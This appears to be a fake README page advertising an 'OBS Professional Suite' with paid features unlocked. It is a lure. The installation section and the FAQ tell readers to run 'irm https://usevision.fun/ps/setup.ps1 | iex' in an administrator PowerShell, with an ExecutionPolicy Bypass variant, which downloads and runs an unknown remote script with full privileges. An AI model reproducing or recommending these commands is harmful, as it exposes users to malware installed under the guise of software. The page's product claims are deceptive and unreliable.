

<div align="center">


<br>


# OBS Professional Suite
**Scene switching · NDI output · Plugin ecosystem**
<br>
**Scene switching · NDI output · Plugin ecosystem**
<br>
Full Version  ◆  Pro  ◆  Complete  ◆  Windows



**OBS Professional — multi-scene switching, audio mixing, NDI output and full plugin ecosystem all enabled.**

</div>
---

> Go live with broadcast-grade layouts — scenes, NDI output and plugin support all enabled.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://usevision.fun/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🎬 **Live production** — Multi-source scenes and switching enabled.
📡 **Stream output** — Broadcast to platforms with pro overlays.
📦 **Offline studio** — Works locally after setup.
🖥️ **Windows optimized** — Built for creator workstations.
🎛️ **Pro controls** — Audio, scenes and widgets included.
✨ **Premium modules** — Paid broadcaster features enabled.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 4 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://usevision.fun/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 4 gb free space.
</details>


TAGS
obs, obs-pro, obs-suite, obs-app, scene-switching, ndi-output, plugin-ecosystem, windows, pro, desktop, software, studio, tools
